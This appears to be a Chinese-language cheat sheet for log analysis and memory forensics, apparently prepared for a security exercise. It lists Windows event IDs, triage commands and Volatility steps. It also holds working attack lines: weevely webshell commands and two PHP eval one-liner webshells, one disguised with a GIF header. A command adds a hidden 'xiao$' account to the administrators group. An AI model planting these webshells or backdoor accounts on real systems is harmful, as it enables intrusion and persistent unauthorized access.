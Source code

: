 # 712日志
## 系统日志分析
```
Windows：
	c:\window\system32\winevt\logs\Security.evtx
	常见事件ID：
	4624，4625，4726，4634，4647，4672
	4688,4689，4776,4720
	5156,5158
	6005,6006
	4698,4699,4700,4701,4702
	net user xiao$ wenhui /add
	net user xiao$ /del
	net user xiao$
	net localgroup administrators xiao$ /add
	msconfig
	$temp$
	$UserProfile$/Recent
	regedit
	at
	systeminfo
	netstat -an
	netstat -ano
	tasklist
	tasklist /PID pid /T
Linux：
	/var/log
	/root/.bash_history
	last
	awk
	sort
	uniq -c
	ps aux
	kill -9 pid
	find / -iname 
	history

```

目录扫描工具：
```
dirbuster
weevely generate <password> b.php
weevely <URL> <password>
<?php @eval($_POST[pass]);?>
GIF89a?<script language="php">eval($_REQUEST[1])</script>
```


>内存文件分析
```
	1.系统基本信息（imageinfo） 
       		--profile=带上镜像
 		imageinfo 列出镜像基本信息
	2. 用户名密码信息（hashdump）
   	 	hashdump列出hash值
    		mimikatz 直接破解哈希值（需要装插件）
   		lsadump john破解不出来 就查看强密码
	3. 查看进程或隐藏或解链的进程（pslist）
    		pslist查看已知进程
    		psscan查看进程以及被rootkit隐藏或解链的进程
	4. 扫描所有的文件列表（filescan）
    		filescan扫描文件并列出，配合 grep 命令进行相关字（flag，，）
```